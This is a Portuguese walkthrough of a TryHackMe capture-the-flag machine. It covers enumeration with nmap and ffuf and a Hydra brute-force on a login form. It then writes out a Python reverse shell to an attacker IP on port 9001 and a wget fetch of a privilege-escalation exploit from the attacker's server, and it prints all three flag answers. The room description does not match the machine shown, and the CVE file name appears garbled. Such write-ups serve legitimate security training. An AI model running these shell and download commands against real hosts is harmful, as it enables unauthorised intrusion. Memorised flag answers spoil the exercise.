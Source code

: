 # Sala Startup do TryHackMe



# Description

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!



# Requisitos para invasão
- [x] BurpSuite



# Tela inicial do Lab

Aqui encontramos o problema, que o rick perdeu sua senha. Então provavelmente teremos que acessar uma tela de login.
![vuln2.jpg](img/scan.png)

Vamos observar o código fonte da página 

#### HTML code
```html

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>

```

Análisando o códifo fonte, encontramos o usuário do Rick que é o R1ckRul3s

```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```



Nesse periodo em paralelo, realizei um scan para buscar por novas informações do alvo

```
nmap 10.10.195.34
```

![vuln2.jpg](img/scan.jpeg)

E também tentei me conectar via SSH
```
ssh -v R1ckRul3s@10.10.195.34
```


![vuln2.jpg](img/ssh_falha.jpeg)


E uma enumeração de diretorios através do ffuf


```

ffuf -c -w /usr/share/dirb/wordlists/common.txt -u http://10.10.195.34/FUZZ -e '.php','.html','.csv','.xls','.xlsx'

```
Encontramos uma página chamada login.php e um robots.txt
![vuln2.jpg](img/ffuf.png)


Entrando aqui na tela de login, deixei um bruteforce rodando  em paraleo

## Tela de login
![vuln2.jpg](img/login.png)


## Hydra
![vuln2.jpg](img/hydra.jpeg)
```
hydra -l R1ckRul3s -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt   10.10.195.34 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password."
```


## Depois de esperar um bom tempo de bruteforce, decidir entrar no robots.txt e esse conteúdo do robots.txt era  meio estranho

```
Wubbalubbadubdub
```

## Tentando logar com o usuário
R1ckRul3s e senha Wubbalubbadubdub. Consigo logar no sistema.
![vuln2.jpg](img/logado.png)

## Tentando um ls -la no command panel achamos o primeiro ingrediente

![vuln2.jpg](img/primeiro_ingrediente.png)

## Resposta aqui 
![vuln2.jpg](img/resposta.png)

```
mr. meeseek hair
```

## Precisamos pegar uma shell melhorada para avançar para os próximos ingredientes, então executei o comando


![vuln2.jpg](img/pegar_shell.png)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.28",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Shell

![vuln2.jpg](img/shell.png)




## Trocando de diretorios encontramos o segundo ingrediente

![vuln2.jpg](img/segundo_ingrediente.png)
```
1 jerry tear
```

## Subindo shell para escalar privilegio

![vuln2.jpg](img/subindo_exploit_privilege_escalation.png)

## Computador do atacante
```
python -m http.server
```

## Computador do alvo
```
wget http://10.9.0.28:8000/CVE-202104034.PY
```

## E agora, só rodar o exploit e escalar privilegio


![vuln2.jpg](img/root.png)

## Com acesso root e procurando o terceiro ingrediente achamos na pasta do root

![vuln2.jpg](img/terceiro.png)

```
fleeb juice
```

Máquina completa :D
